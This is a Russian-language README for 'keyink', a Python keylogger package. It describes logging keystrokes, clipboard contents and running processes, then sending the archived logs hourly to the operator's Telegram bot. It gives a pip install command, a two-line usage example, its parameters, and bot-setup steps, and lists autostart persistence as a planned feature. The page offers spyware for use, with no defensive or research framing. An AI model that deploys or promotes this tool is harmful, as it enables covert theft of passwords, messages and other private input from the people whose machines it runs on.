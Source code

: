 [![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

# keyink

Кейлогер всего лишь в 2 строки. Отправка в Telegram.

## Описание
`keyink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)
  * [Получение айди](#Получение-айди)

### Текущие возможности
1. Логирование клавиатуры, буфера обмена, запущенных процессов.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других логеров.
2. Добавление в автозагрузку системы.
 
## Установка

Установить последнюю версию можно командой:
```
pip install keyink==0.0.1
```

## Пример использования
### Стандартный
```python
from keyink.multilogger import Logger

Logger(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
Стандартный ```Logger``` запускает все доступные логгеры и отправляет собранные данные архивом вам в Telegram каждый час.

Передаваемые параметры:
* `token` - токен Telegram бота.
* `user_id` - ваш айди Telegram.
* `keyboard` - добавить логер клавиатуры (True/False).
* `clipboard` - добавить логер буфера обмена (True/False).
* `processes` - добавить логер процессов (True/False).
* `special_keys` - добавлять в логи спец клавиши Enter, Shift, Alt  и тд (True/False).
* `pause_iteration` - частота проверки запущенных процессов в секундах.
* `sleep` - частота отправки собранных логов в секундах.

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Прописываем название бота, затем ник с прикладкой ```_bot``` в конце.

<p align="left">
  <a href="">
    <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.
